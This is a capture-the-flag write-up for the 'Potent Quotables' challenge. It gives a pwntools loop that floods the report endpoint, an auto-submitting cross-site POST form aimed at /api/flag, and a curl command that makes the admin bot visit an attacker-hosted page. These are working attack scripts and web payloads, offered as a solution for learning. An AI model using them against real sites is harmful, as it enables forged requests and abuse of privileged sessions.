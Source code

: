 # Potent Quotables

We found a Heartbleed-like way of solving this and I thought it would be interesting to do a write up on it.

Summary:     
1. [Run script on your server to listen to `quotables.pwni.ng:1337`](#listener)     
1. [Make a payload containing POST to `/api/flag` on another page/server](#post-payload)
1. [Spam reports to admin so he visits your server containing your payload](#spam-reports)

/api/flag only takes POST requests, so we eventually figured that we have to create a page that makes an xhr POST request to it.

##### Listener
Content-length takes a maximum of 2048 bytes.      
This will force the admin bot to visit your server with the memory leak.

```
from pwn import *
import time

request = """POST /report HTTP/1.1\r
Host: quotables.pwni.ng:1337\r
Content-Length: 100\r
Content-Type: application/x-www-form-urlencoded\r
Connection: close\r
\r
path=http://your-listener.com:1337/?"""

while True:
        p = remote("quotables.pwni.ng", 1337)
        # p = remote("127.0.0.1", 1337)
        p.send(request)
        p.close()
p.interactive()
```


##### Post Payload
```
<iframe name="iframe_id" src=""></iframe>

<form id="formlol" method="POST" action="http://quotables.pwni.ng:1337/api/flag" target="iframe_id">
<input type="submit" value="go">
</form>

<script>
    setInterval(function(){
        document.getElementById("formlol").submit();
    }, 50)
</script>

```

##### Spam reports
```
curl -i -s -k  -X $'POST' \
    -H $'Host: quotables.pwni.ng:1337' -H $'User-Agent: Mozilla/5.0 (iPad; CPU OS 10_3_3 like Mac OS X) AppleWebKit/603.3.8 (KHTML, like Gecko) Version/10.0 Mobile/14G60 Safari/602.1' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://quotables.pwni.ng:1337/quote' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 34' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'path=https://your-server.com/ddos.html' \
    $'http://quotables.pwni.ng:1337/report'
```



*Courtesy of Team OTA / OpenBlue*
